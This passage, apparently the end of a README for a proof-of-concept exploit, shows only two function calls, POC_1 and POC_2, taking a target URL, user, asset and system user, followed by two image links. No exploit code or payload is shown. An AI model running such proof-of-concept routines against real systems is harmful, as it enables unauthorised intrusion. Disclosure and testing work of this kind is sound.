    POC_1(target_url)
    POC_2(target_url, user, asset, system_user)
```



